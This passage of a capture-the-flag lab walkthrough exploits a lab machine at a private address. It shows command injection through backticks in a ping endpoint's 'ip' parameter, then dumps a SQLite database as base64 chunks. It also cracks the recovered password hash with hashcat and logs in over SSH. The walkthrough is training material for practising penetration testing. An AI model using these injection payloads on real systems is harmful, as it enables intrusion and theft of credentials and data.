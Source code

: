 
<pre>2</pre>

---

### There is a database lying around, what is its filename?
```BASH
curl "http://10.10.106.75:8081/ping?ip=%60ls%60"
```
![image-4](https://github.com/user-attachments/assets/eed9f886-2fa1-412b-896e-539d09fd96a1)


That confirms the database file is `utech.db.sqlite` and backend can be command injected and access to shell-level commands inside the backend
<pre>utech.db.sqlite</pre>

---

### What is the first user's password hash?
Leak DB in chunks:
```BASH
curl "http://10.10.106.75:8081/ping?ip=%60tail%20-c%20+100%20utech.db.sqlite%20|%20base64%60"
```
![image-5](https://github.com/user-attachments/assets/efad49ef-de39-43b1-b1f1-c588c4c45c26)


<pre>r00tf357a0c52799563c7c7b76c1e7543a32</pre>

---

### What is the password associated with this hash?
Go to [CrackStation](https://crackstation.net/) to crack hash. 

![image-7](https://github.com/user-attachments/assets/332714cf-219e-478b-ad69-3ee4294c1b4b)


Or use hashcat:
```BASH
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --force
```
![image-8](https://github.com/user-attachments/assets/d4bc2a1f-6bf6-49f6-8693-4b9df0a3996f)

<pre>n100906</pre>

---

### What are the first 9 characters of the root user's private SSH key?

SSH as r00t:
```BASH
ssh r00t@10.10.106.75
```

---
